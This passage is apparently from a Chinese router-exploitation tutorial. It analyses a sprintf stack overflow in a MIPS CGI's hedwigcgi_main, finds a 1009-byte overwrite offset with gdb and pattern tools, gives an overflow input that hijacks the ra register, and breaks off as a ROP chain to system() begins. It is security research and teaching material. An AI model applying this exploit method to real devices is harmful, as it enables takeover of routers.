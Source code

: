 ```sh
```

这里一直以为`sprintf(v27, "%s/%s/postxml", "/runtime/session", v6);`是程序的溢出利用点，继续向下分析才发现下面的程序会创建一个文件`/var/tmp/temp.xml`，创建成功就会产生调用另外一个`sprintf(v27, "/htdocs/webinc/fatlady.php\nprefix=%s/%s", "/runtime/session", v20);`函数，由于我们的var目录下没有tmp文件夹，所以会建立失败，就不会触发第二个`sprintf`函数，溢出是由第一个`sprintf`函数造成的。但是真机中应该是存在这个目录的，所以会造成二次溢出。

考虑到这个问题，手动在var目录下建立一个tmp文件夹，重新进行偏移定位，发现覆盖偏移发生了变化，通过验证确认先填充1009个填充字符再接跳转地址可以实现对程序流程的劫持。

```sh
#动态调试查看覆盖地址
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x68423668 in ?? ()
#确定偏移
$ python patternLocOffset.py -s 0x68423668
[*] Create pattern string contains 1024 characters
ok!

[+] Possible match at offset 1009 (adjusted another-endian)
[+] take time: 0.0016 s
#验证偏移正确性
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+'A'*1010+'B'*16"`
#查看寄存器情况
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424241 in ?? ()
gdb-peda$ i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 fffffff8 00000000 0000004b 76ffe960 00000001 0042e000 00000020
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   767ab4c8 000016c9 00000002 00000024 00000025 00000807 00000800 00000400
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000008 00000000 00000000 00000000 004346d0 76ffee60 41414141 42424241
            sr       lo       hi      bad    cause       pc
      20000010 0001dfca 0000003f 42424240 00000000 42424241
           fsr      fir
      00000000 00739300
```

这里发现寄存器s0~s8，ra的寄存器的值可以操控，从hedwigcgi_main函数的结尾也能够看出来。

### 漏洞利用

- 构造rop链

在libc.so.0动态库中找到`system`函数（0x53200），由于这里的libc.so.0库是动态连接库，需要找到libc.so.0的基地址。
